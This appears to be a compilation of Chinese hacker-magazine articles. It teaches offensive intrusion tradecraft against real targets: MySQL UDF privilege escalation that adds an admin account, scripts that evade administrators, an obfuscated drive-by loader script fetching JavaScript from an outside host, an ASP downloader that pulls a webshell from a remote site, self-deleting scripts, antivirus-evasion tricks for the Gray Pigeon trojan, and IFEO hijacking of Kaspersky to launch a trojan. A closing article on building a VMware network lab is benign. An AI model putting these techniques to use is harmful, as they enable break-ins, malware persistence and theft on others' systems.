现在我们来连接 MySQL 数据库看看，到 `c:\MySQL\mysql5\bin` 目录下，执行命令 `mysql -h 127.0.0.1 -uroot -p123qwer@`，成功连接到 MySQL 数据库，如图 7。

在 webshell 里上传一个 udf.dll 文件到 `c:\windows` 目录下，然后在连接到数据库的 shell 里执行命令 `create function cmdshell returns string soname 'udf.dll'`，cmdshell 函数添加成功。

现在我们可以利用添加的 cmdshell 函数执行系统命令了，这里我加了一个管理员账号，命令 `select cmdshell('net user test test /add');` 和 `select cmdshell('net localgroup administrators test /add');`。

用 webshell 查看一个远程终端的端口号，管理员改成了 5389，利用刚才加上去的 test 用户成功登录远程桌面，朋友要的站点也在里面，如图 8。

文章就写到这里了，如果大家有什么不明白的地方，欢迎来……> **高手絮语：**

高手专栏开了有 6 期了，大家感觉是否充满挑战。前 3 期我们的专栏是 VBS，可能有些人没有接触过这方面的知识，受众群有点窄了；后 3 期是定的题目，是入侵中的细节，题目出得又太广，写起来的东西和读者想看的应该也不一样。无论怎样，本专栏开起来，我想这对读者和作者都是一个很好的事情。对作者是挑战，对读者是受益了。从下期开始，我们重新定义个题目吧，既然是高手专栏，我们定的题目就是很多读者陌生却又熟悉、了解的批处理吧。熟悉是因为很多读者都知道批处理是怎么回事，陌生是我估计现在很多新生代的黑客入门者会汇编、会 VC，却不一定精通批处理吧。

## 我在入侵过程中注意到的细节之 3

前两期的专栏中，针对细节入侵这一专题，我分别写了我在内网和注入中注意到的一些细节。其实入侵过程中，有时候难免会与管理员面对面，如何更好地隐藏自己也是很重要的，一旦不注意，入侵工作往往前功尽弃。这期专栏中，我就如何隐藏自己所做的一些工作，以及所注意到的细节来写一下。

先来说一下嗅探吧。大家常用的工具是 Cain，用法大家都会了，但是 Cain 在嗅探过程中，如果遇到流量较大的目标机，往往会把装 Cain 的主机搞死，从而引起管理员的注意。像有的时候，嗅了一阵后，就会把 3389 搞死。我也没有更好的办法，只能让 Cain 嗅一段时间后停止，再重新开始。如果每次都是手工去停止 Cain，有时候时间掌握不及时，3389 就已经死掉了。其实解决这个问题很简单，一个简单的批处理脚本就可以了。脚本内容如下：

```bat
ping 127.0.0.1 -n 5000 >nul
taskkill /F /PID 4144
```

上边批处理脚本中，5000 是秒数，用来控制 Cain 的嗅探时间，4144 是 Cain 的进程数，可以自己用 tasklist 查一下就知道了。这样一来，你可以放心在嗅探这段时间内去做别的事了。

再来呢，用 Cain 嗅探一般会在 3389 上，这时候如果碰到管理员登录 3389 也不太好办，我的好友 Netpatch 写过一个终端监视脚本，一旦发现有两人同时登录终端的话就注销自己。脚本内容如下：

```vb
on error resume next
set arg=wscript.arguments
if arg.count=0 then
  wscript.echo "use:// cscript.exe FS.vbs port"
  sleep "000"
  wscript.quit
End if
lport=arg(0)
Runs=false
While runs=false
  Dim oShell,oExec,strOut,oRegExp,Matches,Match,Num,iPort
  Set oShell = WScript.CreateObject("WScript.Shell")
  Set oExec = oShell.Exec("netstat -an")
  Set oRegExp = new RegExp
  oRegExp.Pattern = "TCP[\s]+[\d\.]+:" & iPort & "[^\s]+[\d\.]+" & lport & "[^\s]+ESTABLISHED"
  oRegExp.IgnoreCase = True
  oRegExp.Global = True
  Do While Not oExec.StdOut.AtEndOfStream
    strOut = strOut & oExec.StdOut.ReadLine() & Chr(13) & Chr(10)
  Loop
  Set Matches = oRegExp.Execute(strOut)
  Num = 0
  For Each Match In Matches
    Num = Num + 1
  Next
  if num > 1 then
    Runs=true
    oShell.run "logoff"
  end if
  Set Matches = Nothing
  Set oRegExp = Nothing
  Set oExec = Nothing
  Set oShell = Nothing
wend
```

用此脚本，登录终端时打开就可以了，这也是一个比较好的隐藏自己的办法。

最后来说一下挂马。挂马的隐藏方法也有很多，以前《黑手》上讲过几期。如果只是盲目地挂马，多搞几个肉鸡的话，那随便你了。但是有时候我们入侵了一个公司的 Web 站，目标却是他们的内网。这时候挂马可能会挂出太多的无用机器，如果你知道他们公司内网出口的 IP 段的话，我们可以限制一下 IP 段，使其更有针对性。这个 ASP 脚本如下：

```asp
<%
'获取访问者的地址
ip=Request.ServerVariables("REMOTE_ADDR")
'允许的 IP 地址段为
allowip1="221.221.221."
allowip2="221.221.221.254"
if checkip(ip,allowip1,allowip2)=true then
  response.write "你挂马的页面"
end if
function checkip(ip,allowip1,allowip2)
  '更多代码请看光盘的 ma.asp
end function
%>
```

这个脚本也许考虑得不太周到，但是我觉得足够用了。挂马的隐藏方法也有很多，我最常用的是代码分隔法。记得剑心有篇文章，提到过最短的跨站方法，我们也可以用这种方法来挂马的。好比常规挂马语句 `<script src=http://www.110.cn/1.js></script>` 拆分一下，转换为：

```html
<script>z='documen'</script>
<script>z=z+'write'</script>
<script>z=z+'<scrip'</script>
<script>z=z+'t src=ht'</script>
<script>z='z+"tp://wwi'</script>
<script>z=z+'w.110'</script>
<script>z=z+'t.cn/1.'</script>
<script>z=z+'js></sc'</script>
<script>z=z+'ript>'</script>
<script>eval(z)</script>
```

这样转换的好处是上边的每一行可以分开插入在同一页面的不同代码中，这样一来就会隐蔽一点了。当然如何更好地隐藏自己有很多不同的办法，各人各有巧妙。这篇文章只是抛砖引玉，能引起大家的思考我就心满意足了。

《黑客手册》论坛给我留言，我的 ID 是 rabbitsafe，也可以加我 QQ：3818718，请注明来意。

> 【文章中的限制 IP 访问的 ASP 脚本已收录在本期光盘】

**编辑点评：**
这篇文章主要是讲提权方法，大家都知道，提权一直是比较难的问题，特别是对没有 0day 的菜鸟们，提升权限非常困难。所以，一般都是依靠第三方软件设置上的问题进行权限提升。最后——记住了！以后不成功的时候先睡觉！

## 入侵过程中小技巧

樱花浪子

通过本文你可以学到：

- 利用 VBS 脚本分解 / 还原 EXE 程序
- VBS 和 JS 的自删除
- 利用 DB 权限快速得到数据库 IP
- 利用 XML 和数据流组件保存 ASP 木马

### 1. 利用 VBS 脚本分解 / 还原 EXE 程序

连着看了几期高手手记中 LCX 利用 VBS 在入侵中的作用后受益匪浅，我也厚着脸皮把整理的一些小技巧拿出来和大家分享。在入侵时得到 CMDSHELL 后，如果没有开终端，或者由于其他原因需要我们上传一些程序时，没有 WEBSHELL 的情况下，可能大家用 FTP 命令比较多，不过相对来说比较麻烦些。如果程序不是很大，我们用 VBS 脚本完全可以实现，首先就为大家奉献上偶的 B 代（VBS 代码）：

```vb
on error resume next
set arg=wscript.arguments
if arg.count=0 then wscript.quit
with CreateObject("ADODB.Stream")
  .type=1:.open:.loadfromfile arg(0):bs=.read:l=.size:.close
end with
if err.number<>0 then wscript.quit
set fso=CreateObject("Scripting.FileSystemObject")
with fso.openTextFile(arg(0)&".bat",2,true)
  .writeline "@echo bs=>>xx.vbs"
  for k=1 to l step 129
    .write "@echo."
    .write b64b(midb(bs,k,129))
    .writeline "+>>xx.vbs"
  next
  .writeline "@echo set rs=CreateObject(""ADODB.Recordset"")>>xx.vbs"
  .writeline "@echo set ado=CreateObject(""ADODB.Stream"")>>xx.vbs"
  .writeline "@echo l=len(bs):ss="""":for k=1 to l step 4096:ss=ss+ub64(mid(bs,k,4096)):next:l=len(ss)>>xx.vbs"
  .writeline "@echo rs.fields.append ""b"",205,l/2: rs.open: rs.addnew: rs(""b"")=ss+chrw(0): rs.update>>xx.vbs"
  .writeline "@echo ado.mode=3:ado.type=1:ado.open:ado.write rs(""b"").getchunk(l/2)>>xx.vbs"
  .writeline "@echo ado.savetofile """+fso.getfilename(arg(0))+""",2: ado.close>>xx.vbs"
end with
```

```vb
function ub64(s):dim i(4),b(3),ub64="":n=len(s):r=2
if n mod 4<>0 then exit function
for j=1 to n step 4
  for i=0 to 3
    a=asc(mid(s,j+i,1))
    if a=43 then a=62 else if a=47 then a=63 else if a>47 and a<58 then a=a+4 else if a=61 then a=0: if r=2 then r=j-2
  next
  ' ...
next
end function

const b64 = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/"
function b64b(bin)
  b64b=""
  n=lenb(bin)
  for i=1 to n step 3
    a=ascb(midb(bin,i,1))
    b64b=b64b+mid(b64,a mod 64+1,1)
    if i<n then
      b=ascb(midb(bin,i+1,1))
      b64b=b64b+mid(b64,(a\64+b*4) mod 64+1,1)
      if i+1<n then
        c=ascb(midb(bin,i+2,1))
        b64b=b64b+mid(b64,(b\16+c*16) mod 64+1,1)
        b64b=b64b+mid(b64,c\4+1,1)
      else
        b64b=b64b+mid(b64,b\16+1,1)
        b64b=b64b+"="
      end if
    else
      b64b=b64b+mid(b64,a\64+1,1)
      b64b=b64b+"=="
    end if
  next
end function
```

将以上代码保存为 1.VBS，现在我们只要把 EXE 程序往这个文件上一拖就会自动生成 1.exe.bat。接着再把生成的 BAT 里的内容复制到 CMDSHELL 里，会自动还原成 1.exe。

**大家注意哦，用这个 VBS 脚本，EXE 程序最好不要超过 300KB 大小！**

### 2. VBS 和 JS 的自删除

接下来再看看 VBS 脚本和 JS 的自删除，VBS 脚本自删除代码如下：

```vb
Set fso = CreateObject("Scripting.FileSystemObject")
WScript.Sleep 1000 ' 将脚本挂起 1 秒
fso.DeleteFile(WScript.ScriptName) ' 删除脚本自身
' if fso.FileExists("c:\selkifli.exe") Then fso.DeleteFile("c:\selkifli.exe")
' 删除程序
```

将以上代码保存为 1.VBS，运行后看看是不是已经删除自己了。

**JS 自删除代码：**

```js
try{
  fso = new ActiveXObject("Scripting.FileSystemObject");
  WScript.Sleep(1000); // 休眠 1 秒
  fso.DeleteFile(WScript.ScriptName); // 删除脚本本身
  fso.DeleteFile("c:\selkifli.exe"); // 删除程序
}catch(e){}
```

将以上代码保存为 1.JS 运行，将会进行自删除。

### 3. DB 权限快速得到数据库 IP

```sql
insert into OPENROWSET('SQLOLEDB','uid=sa;pwd=netpatch;Network=DBMSSOCN;Address=xx.x.x.x,1433','select * from dest_table') select * from src_table;
```

自己监听的窗口会显示出连过来的 IP，如果没有可以把端口换成 80。如果数据库服务器开了 80，就可以只备份木马了，或者直接备份木马到启动里。（具体可见网上的相关文章）

### 4. 利用 XML 和数据流组件保存 ASP 木马

有的时候得到了小马却保存不了大马，我们可以利用服务器的 XML 和数据流组件，把指定站的马下载回去。代码如下：

```asp
l="<%...%>"
set xPost = CreateObject("Microsoft.XMLHTTP")
xPost.Open "GET", "http://www.xxx.com/1.txt", False
xPost.Send()
set sGet = CreateObject("ADODB.Stream")
sGet.Mode = 3
sGet.Type = 1
sGet.Open()
sGet.Write(xPost.responseBody)
sGet.SaveToFile Server.MapPath("1.asp"), 2
set sGet = nothing
set sPost = nothing
```

在你的站上保存一个文件名为 1.txt 的文件，里面写好大马的内容。接着把上面代码保存为 *.asp 上传或者直接在小马里保存，访问后会直接在当前目录生成 1.asp 的大马内容。由于操作简单我就没有给大家抓图了，还有不明白的请到非安全来找我。

> 【第 1 个案例中的代码已收录在光盘中】

**编辑点评：** 简单实用，短小精悍，高于的东西果然不凡。小技巧重要的是经验的积累和过程中的不断摸索，广大读者朋友们如果有相关的技巧也欢迎奉献哦！我们很看好你们哟！

## 菜鸟免杀三误区

> 一月前潜入马论坛，兄弟们也在写免杀一类的火爆主题。回到学校寝室，当然在跟同学们讨论杀软升级了没有，但笔者那次终在每月头条送样的菜鸟文章中得到对大家带来了什么内容呢？

■ 强逸兔仇 / 江厚米

从本文你可以学习到免杀的三个误区。

在一些论坛和群中经常见有小菜问诸如“入口点加 1 为什么不能免杀”、“微软压缩程序为什么对我的木马不起效果”等问题，刚开始我也很是郁闷，最后通过多次实践发现其中另有猫腻！下面就看小菜我来一一讲解：

### 误区一、PEditor 文件头修改

大家免杀改文件头通常都用 PEditor 吧，因为它比 LordPE 修改起来更为直观，但实际效果又如何呢？今天就用瑞星数据库测试器来做个实验，用卡巴扫描结果不查杀，如图 1。

用 PEditor 将其入口加 1，再来扫描结果，如图 2。立即就被杀了，为什么呢？我们用 C32Asm 打开看下吧！如图 3。“由 yoda & M.o.D. 制作，暂驱汉化的 PEditor 1.7 修改 -> come.to/f2f”，这就是被杀的原因，每次改文件头就会自动加入这段代码，于是就成了程序的特征码，现在大家知道为什么免杀不成功的原因了吧！那么我们该怎么办呢？总不能放弃使用这个软件吧！先用 PEiD 查下 PEditor 壳看看，如图 4。

还好是 UPX 压缩壳，直接用 PEiD 自带的通用脱壳机轻易地就脱掉了，然后用 C32Asm 载入脱壳后的文件，以“咕嘎汉化”作为关键字进行搜索，如图 5。这里我们直接将其填充为 00，如图 6。保存修改，再来对目标文件进行加 1 测试，卡巴已经不杀了。

### 误区二、微软 IExpress 压缩捆绑程序

微软自带的这个捆绑器我想大家都不会陌生吧，最近一直很火。起初这个工具只用于免杀捆绑，但不知道从什么时候开始流行于免杀当中，近期的一些加壳免杀当中都提到它，我们也拿个例子来看看它的实际效果。首先用原版鸽子来配置一个无壳服务端，毫无疑问肯定是被杀的，如图 7。我们再来用 IExpress 进行捆绑压缩一下，如图 8。然后再将其传到世界查杀网去看看，如图 9。

大家看看过了多少，难道鸽子就这么轻易地免杀了吗？其实不然，我们用 PEiD 查下壳就会明白，如图 10。显示为 Microsoft CAB SFX module [调试]，世界查杀网只扫描的是这个壳而并非我们的木马，一旦运行程序，木马就会被释放出来，依然会被杀的。不信大家可以试一试！也就是说它

## 误区三、MYCCL 定位特征码


只起到了压缩捆绑的作用，关于它可以做免杀的说法我认为是错误的。当然，如果服务端已经做了特征码免杀，用户再来压缩还是一种很不错的选择！（提醒一点：如果想让自己的木马能免杀的时间长一点，千万不要将它往杀毒网里提交，要不然你一定会后悔的。）

- 1. 杀毒软件本身很占资源，你生成100个要老半天才杀得完，对于配置不高的电脑，这样会使电脑很卡！
- 2. MYCCL 要重新两次定位，那么就是说，一段特征码生成200个样本，大家想想是谁在吃亏！
- 3. 这也是最重要的一点了，你会经常发现分成100区块的样本，定位有时候会出现特征码为0的情况！

例如 00103221_000000，我个人认为越小越好，比如 8、10，最好以 2 的倍数，如果出现特征码大小为 0 的话，再往下缩减。在定位木马体积为 50KB 以下时可以分块为 100-200 个，100-200KB 体积大小的木马的话分块为 70-100 个，像灰鸽子这样庞大的体积而且现在又是全区段定位，一般分块为 30 或 50 个最好！另外，经常有些兄弟问到定位时出现全杀的情况，比如定位 8 或者 10 全部都被杀，这样就说明分块过于大，可以改为 100 试试，也或者定位时只填写特征位置，分段长度默认不填，让 MYCCL 自己分段，再或者就以全杀的进行定位，点击二次处理时特征码就会出来的。

最后，这篇文章都是本人在网上看资料和教程加自己实践的总结。觉得对刚接触免杀的小菜们很有用，所以就写出来与大家分享，如果有什么不对之处请指教。这可能是我在大学里最后一次给大家写文章了，祝各位黑友网鸡多多，同时也祝愿“黑手”越办越好！有什么问题到论坛来找我，ID：xyzizai。

> 【本文介绍的相关程序和工具已收录在本期光盘中】

**编辑点评：**

文中思路很好，注意到免杀的一些细节问题，菜鸟经常由于一些细节而导致免杀失败。其实免杀并不像传说中的那么难，把基础学好，细节注意好，免杀基本不会有多大的问题。所谓人云亦云，别人说的对自己来说，并不一定是最好的，所以只有自己多动手实践，才能体会个中滋味！

## 利用映像劫持保护木马

从本文你可以学习到：

- 利用映像劫持如何保护自己的木马

现在很多的木马病毒都使用了映像劫持技术，从而通过它来屏蔽相关的安全软件。那么我们能不能通过它来进行木马的保护呢？答案当然是可以的，下面我们就来看看如何进行这样的操作。

### 一、映像劫持原理

“映像劫持”也被称为“IFEO”。在 Windows NT 架构的系统里，IFEO 的本意是为一些在默认系统环境中运行时，可能引发错误的程序提供特殊的环境设定。那么如何使一个可执行程序位于 IFEO 的控制中呢？Windows NT 架构的系统为用户预留了一个交互接口，它位于注册表的 “HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options”，如图1所示。

这时使用与可执行程序文件名匹配的项目作为程序载入时的控制依据。IFEO 使用了忽略路径的方式来匹配它所要控制的程序文件名，例如 IFEO 指定了对一个名为 “hack.exe” 的可执行程序文件进行控制，那么无论它在哪个目录下，只要它名字还叫 “hack.exe”，它就只能被 IFEO 随意进行劫持操作。


### 二、实际操作过程

- 1. 配置木马程序

首先我们要保证木马文件表面已经免杀，接着来配置木马的服务端程序，这里还是以灰鸽子木马为例。首先在服务端程序的配置过程中，将“安装路径”设置为 “$(WinDir)\Hack.exe”，这里的文件名可以自定义设置。

接着将“启动项设置”中的两个选项前的勾去掉，然后在“高级选项”中根据自己的需要进行设置，如图2所示。


- 2. 映像劫持设置

现在运行“Windows 映像劫持利用程序”，按照程序的提示输入选项 1，然后就可以根据向导进行设置。设置完成选项 1 以后首先输入需要劫持的文件名，这里我们输入卡巴斯基的文件名 avp.exe。接着输入木马的绝对路径，比如先前我们设置的 c:\windows\hack.exe，如图3所示。这样当卡巴斯基运行的时候，就会被映像劫持而启动设定的木马程序，这也是前面为什么没有设置启动项的原因。现在打开系统的注册表编辑器，将其中的数据展开到 HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options 下面，然后将 avp.exe 这项内容信息进行导出即可。


### 3. 文件内容捆绑

现在用“战争游戏捆绑器”将木马程序和注册表文件进行捆绑。选择“通常模式”后点击“下一步”按钮，然后点击“添加文件”按钮来增加这两个文件。点击“下一步”按钮，由于不需要立即运行木马程序，所以将文件前面的勾去掉。然后选择注册表文件项，并点击“设置参数”按钮设置为：regedit.exe /s /i avp.reg，如图4所示。

再点击“下一步”按钮后，点击“释放到所存路径”按钮，在其中输入“%w”，则代表系统的 Windows 目录，这需要和木马释放的路径一样。最后设置图标就可以完成最后的操作设置。


## 三、小结

看了上面的操作是不是很简单呢？其实日常学习中，我们只需要多多关注相应的病毒木马介绍，那么就可以从中学到很多需要的知识，比如脚本代码的编写、木马病毒的保护等，如果能再加以利用、融会贯通的话那就更好了。

**编辑点评：** 经常有人来感叹为什么我的木马总是那么快就完了呢？其实很多时候跟一些细节有关，如果没注意到的话，那么就很容易被防杀了，或者被管理员发现而清除掉。看了本文之后是否对你有一些启发呢？

## 阳春三月专题

### 我的私人 Lab：网络实验室搭建 DIY

图：摘获了的小C【E.S.T】

从本文中你可以学到：

- VMWare 虚拟机网络连接类型与虚拟网卡的知识
- 如何使用 Win2003 的路由服务
- 路由与路由器的相关知识
- Mikrotik Router 的简单使用
- ARP 欺骗工具 arpspoof 的使用

我们很多时候在学习技术的同时肯定都想亲手去实践一下，于是很多朋友都会用虚拟机软件搭建一台机器进行入侵或其它的实验。但在很多情况下一台机器是不够的，很多实验必须在一个完备的网络环境下才能进行，比如在研究 ARP 欺骗攻击的过程中，我们不仅需要攻击机与受害机，还需要第三台机器的网关才能完成实验；而使用会话劫持进行攻击的时候也需要三台机器才能进行。当然你可以去进行入侵或者在其它公共场合进行这些活动，但是这既有风险也不方便。所以我们有必要搭建一个完整的网络，搭建一个自己的网络实验室。今天我就在这里告诉大家搭建的基本方法，希望能抛砖引玉，有更多的朋友能够提出更好的方法来。废话少说，下面就正式开始了！

### 一、安装 VMWare

由于《黑手》的多篇文章已经介绍了这个强大的软件，笔者也就不再详述。网上最新版本的 VMWare 6.0 多为绿色精简版，考虑到稳定与熟悉等因素，笔者用的是较老的官方 5.52 注册版，大家可以根据自己的需要选择。对于更新版本的 VMware，设置的方法基本相同。需要注意的是，安装完后需要马上重启，这样一些驱动才能正常执行。

### 二、规划网络拓扑与安装系统

搭建一个网络实验室，我们首先是要规划出网络的拓扑结构，也就是网络该如何搭建。由于我们个人电脑的资源有限，不可能有很多台主机，所以我们的拓扑也就相对简单。下面是我们网络实验室的拓扑结构图，如图1。

我们的实验室里一共有三台机器加一个路由器，由于其中有台机器也就是 HACKER 是我们自己的靶机器（以下简称为本机），所以我们一共要装三个系统（包括路由器）。为避免大家看不清图片的设置，下面再次详细列出各机器的设置：


- 机器名：Client
  - IP：192.168.48.80
  - Gateway：192.168.48.1
  - Windows 2003
- 机器名：Hacker
  - IP：192.168.48.10
  - Gateway：192.168.48.1
  - Windows XP
- 机器名：Server
  - IP：192.168.229.80
  - Gateway：192.168.229.1
  - Windows 2003
- 路由器
  - IP1：192.168.48.1
  - IP2：192.168.229.1

其中的 Client、Server 与路由器全部算虚拟主机，因为大家的黑软一般都在自己的机器上，所以我们把自己的机器也作为入侵测试机 Hacker，也属于网络的一部分。这样一个基本的网络雏形就出来了，下面我们要具体地去实现它。

### TIPS：关于路由与路由器

所谓“路由”，是指把数据从一个地方传送到另一个地方的行为和动作；而路由器，正是执行这种行为动作的机器，它的英文名称为 Router，是使用一种或者更多度量因素的网络层设备，它决定网络通信能够通过的最佳路径。路由器依据网络层信息将数据从一个网络转发到另一个网络。

先介绍一个笔者的实验环境：CPU：AMD 4200+，内存 2GB，硬盘 160G。由于是新买的机器所以配置比较好（曾经同时跑过 3 个 Win2003 与一个 Ubuntu）。如果大家的内存不够，可以装 Windows 2000 代替，再不行就可以考虑趁过年拿压岁钱加根内存条，百来块可以买个 1G 的回来（编者：这都可以买 10 本《黑手》了！），这里还是在 Windows 2003 的环境下进行试验。

实现路由功能有两种比较基本的方法。第一种是再装一个 Win2003 或 2000，用其中的路由服务实现路由功能，这种方法适合内存较大的朋友进行实验。第二种稍微复杂一点，就是安装一个软路由，此方法硬件条件要求小，内存一般只需要 64M（或者更小），但是设置上比较复杂。下面会分别讲解两种方法的具体实现过程，大家根据自己的实际情况进行选择。

下面来具体安装各个系统，首先修改一下本机的设置。由于进行默认安装时，VMware（以下简称 VM）会自动通过驱动实现两个虚拟网卡 Vmnet1 与 Vmnet8，如图2。


熟悉 VM 的朋友都知道，Vmnet1 是 Host-only 网络，而 Vmnet8 是 NAT 网络。关于这些概念可能有些朋友还不是很清楚，下面简要地讲一下：

VM 在安装系统时一共有三种网络模式，如图3：Bridged（桥接）、Host-only 与 NAT。

**Bridged**：相当于与你的本机连接在同一个局域网，就是直接拉根网线连接到你主机所连接到的交换机或路由器上，等于在你本机所处于的局域网中增加了一台计算机，此时你本机局域网其它的计算机可以直接访问你的虚拟机。这也是让虚拟机上网最简单的形式。


**Host-only**：这是一个独立的网络，相当于拉一根网线连接到一个新的交换机上，此网络与其它的网络不通。如果你想让你的虚拟机上网的话，这就是不行的。

**NAT**：这种模式相当于我们现在广泛使用的“宽带路由器”。此时你的本机通过 VM 的 NAT 服务被虚拟成一个 NAT 主机，虚拟机与本机用的是相同的 IP 地址。只要本机可以上网，虚拟机也可以上网，不过你得首先确定你的 VMware NAT Service 服务已启动，如图4。


而这三种模式又与三个网卡直接相关联：Bridged 对应的是 Vmnet0，Host-only 对应的是 Vmnet1，NAT 对应的是 Vmnet8。也就是说，当你为虚拟机设置为这三种模式的时候，你就装上了这三种网卡。

但是大家不要觉得网络就只能这样设置，VM 最多可以为我们提供 9 张网卡，从 Vmnet0 到 Vmnet8。VM 的设置是非常灵活的，如果需要的话，我们是可以通过设置，让其余的任意网卡实现上面的功能。

下面还是回到本机的设置上来。我们的本机只需要连接一个网络，所以只需一张网卡（除开物理的网络）。为了方便，我们先把默认安装的 Vmnet8 网卡删除。

点击“Edit”（编辑）——“Virtual Network Settings”（虚拟网络设置）——“Host Virtual Adapters”（主机虚拟网卡），点击 Vmnet8，选择右下角的 Remove 进行移除，如图5。


移除之后，网络连接里也没有那个网卡了，下面我们就可以开始装虚拟机了。我们先配置第一台主机 Client。

首先是基本设置，打开 VM 后，我们点击左上角的“File”——“New”——“Virtual Machine”，开始设置：选 Typical（典型的），接着根据自己的需要选择系统，这里笔者选的是 Windows Server 2003 Enterprise Edition，再选择存储位置，将虚拟主机的名称设为 Client，最后来到关键的网络设置。

这里有个 VM 的机制不得不说一下。上面说了，选网络的时候，不同的模式有不同的网卡，而在 VM 里虚拟机只能跟相同的网卡通信，也就是说装了 Vmnet1 的主机只能和装了 Vmnet1 网卡的主机通信。这里可以理解为不同的网卡连接到不同的交换机上，各交换机相对独立。根据上面的网络拓扑，我们设置的这台 Client 必须与本机相连，而本机又装的是 Vmnet1 网卡，所以我们必须将 Client 设置为 Vmnet1 网卡。

这里我们先选“Do not use a network connection”，即不使用网络连接，完成后我们再添加一个 Vmnet1 网卡。右键点 Client，再点“Settings”，如图6。


我们先点“Memory”，为了节约内存，因为我们要同时开 3 台 Win2003，把内存值设为 300M，当然也可以更小（不过最好不要小于 200M，人家毕竟是为做服务器而准备的）。你可以根据自己的实际情况来选择。接着选择右下角的“Add”进行网卡的添加，如图7。


接着会打开一个向导，选择添加的硬件，这里我们选择网卡，也就是 Ethernet Adapter。再点下一步，如图8。


在选择网络类型时，我们选择“Custom”，再选择“Vmnet1”，如图9。

大家可以看见 Vmnet1 旁边有个 Host-only，也就是说选择这个网卡等于选择了 Host-only 网络模式。这样设置是为了让大家更好地理解 VM 的网络设置机制，而且 Server 与 Router 只能这样设置，我的出发点绝对是纯洁的！

设置好以后就是拿出 Win2003 的盘来装系统了，装完之后看看我们可爱的 Win2003 界面，如图10。


下面我们用 VM 一个很有用的功能 CLONE 来克隆出两个一样的系统，一个作为 Server，另一台作为路由。

先将 Client 关闭，再右键点击 Client，选择“Clone”，在出来的向导中点下一步，在“Clone Source”选项中选择第一个“From current state”，再点下一步，来到了 Clone Type，也就是克隆类型选项，选第一个“Create a linked clone”，如图11。


这种类型的克隆等于是直接连接到你已经装好的系统的文件上，根据需要再增加文件，所以占的硬盘空间比较小，速度也很快。点下一步后将名称改为 Server，再点一下就完成了 Server 虚拟机的创建。

右键点击 Server，进入 Settings 设置选项，进行网卡设置。先选定网卡再点 Remove 将原先的网卡 Vmnet1 移除掉，再用上面所述的方法添加一个 Vmnet2 网卡，添加好后如图12。


用同样的方法克隆出另一个系统作为路由器，取名为 Router。再次添加网卡 Vmnet2，只不过这次不删除 Vmnet1，因为路由要连接两个网络，所以必须有两个网络接口 Vmnet1 和 Vmnet2。至此我们规划网络与安装系统已经完毕，下面开始进行具体的网络设置。

### 三、各主机网络设置与路由器设置

### 1、各主机的设置

我们先设置 Client，启动后先右键点击“我的电脑”，将计算机名改为 Client，否则等下启动 Router 时会提示有网络重名，因为 Router 是克隆的 Client，所以计算机名是一样的。接着打开“控制面板”里的“网络连接”，“属性”——双击“Internet 协议（TCP/IP）”，将 IP 设置为：**192.168.48.80**，子网掩码：**255.255.255.0**，网关：**192.168.48.1**，DNS 地址为空，如图13。

再以同样的方法将本机的网络连接（要注意名称应为 VMware Virtual Ethernet Adapter for Vmnet1，不要与物理的本地连接混淆）属性更改，IP 地址设为 **192.168.48.10**，其它与 Client 设置成一样。


接着关闭本机的防火墙，在虚拟机 Client 中 PING 一下本机 **192.168.48.10**，看看能否 PING 通，如图14。

我们看到是可以 PING 通的；Time 小于 1 毫秒，一切正常，说明网络是连通的。


接着设置 Server，将 IP 设置为：**192.168.229.80**，子网掩码：**255.255.255.0**，网关：**192.168.229.1**。设置好后，我们在 Server 下 PING 一下 Client，看看是否 PING 得通，如图15。


可以看到，现在是无法 PING 通 Client 的，因为 Server 与 Client 的网卡设置不一样，所以属于不同的网络，而中间还没有路由器进行数据转发。下面我们就来用 Windows 2003 自带的路由服务，让它成为一个路由器。

### 2、路由器的设置

首先启动 Router 虚拟机，更改两张网卡的设置。将 Vmnet1 网卡 IP 设置为：**192.168.48.1**，子网掩码：**255.255.255.0**，网关设置为：**192.168.48.1**，DNS 为空。

然后将 Vmnet2 网卡 IP 设置为：**192.168.229.1**，子网掩码：**255.255.255.0**，网关设置为：**192.168.229.1**，DNS 为空。点确定后会出现一个警告，大意是如果这两个网络不互相连通，则此设置不起作用，问是否保存设置，点“是”。

> TIPS
>
> 此时有两个本地连接，VM 一般会自动将 Vmnet1 设置为本地连接，Vmnet2 为本地连接2，设置的时候不要弄错。

开启路由功能。进入“开始”——“管理工具”——“服务”，将 Windows 防火墙服务停掉。因为它会拦截该主机要接收并转发的数据包，防火墙启动的时候这些数据包都是无法被服务器接收，导致无法被路由。我们右键点击名称为：**Windows Firewall/Internet Connection Sharing (ICS)** 的服务，将启动类型设置为“禁止”，再将服务状态改为“停止”，如图16。


接下来我们就可以配置路由了，还是进入“管理工具”选择“路由和远程访问”，打开后再右键点击主机名，进入“配置并启用路由和远程访问”，进入安装向导，如图17。

依次选择“自定义配置”——“LAN 路由”，点击完成后会出现如图18的对话框，点“是”。

短暂的等待后，此台机器的路由功能就被开启了。接着再次单击主机名——“IP 路由选择”——“静态路由”，用鼠标右键单击“静态路由”，选择“IP 路由选择表”，如图19。

图19中所标记出来的信息，表示已经有两条静态路由添加到路由表中。此时，Vmnet1与Vmnet2已经可以通信了，我们在Server中再次PING一下Client试试，如图20。

我们看到，Server已经可以PING通Client，同时TTL=127，表示经过了一个路由，一切正常。

## TIPS：什么是TTL

TTL即包生存时间，很多时候网络中的包不可能都顺利到达目的地，为了防止它们被无限循环路由而浪费资源，则设置了这个值。每次经过路由器都至少要把TTL减一，TTL通常表示包在被丢弃前最多能经过的路由器个数。当计数到0时，路由器决定丢弃该包，并发送一个ICMP报文给最初的发送者。Windows 2003默认的TTL为128，经过了一个路由器减1，所以这里为127。

既然Server与Client已经连通，那与Client在同一个网络的Hacker（也就是本机）能否与Server联通呢？我们在本机下执行PING命令看看，如图21。

我们可以看到本机是有Vmnet1网卡的，但是无法PING通Server，这是为什么呢？怎么会出现这么神奇的现象呢？（土豆：你再卖关子就阉了你……）原因其实很简单！

因为本机有两个本地连接，同时有两个网卡，同时有两个不同的网关。网关就相当于房间的门一样，不同的门连接到不同的地方，而当数据包出去的时候必须选择不同的门，而选择门的规则全部都保存在计算机上的一张表上，这就是路由表。数据包出去的时候会首先查一下路由表，看看究竟是要从哪个门出去，如果没查到就从第一个连接出去。由于电脑的本地连接（也就是物理网卡）是第一个连接，一切未知的网络地址（比如这个网段外）会首先从这个物理网上出去，所以我们就访问不到我们的Server。

上面所说的路由表，在CMD下输入：`route print` 就可以查看，如图22。

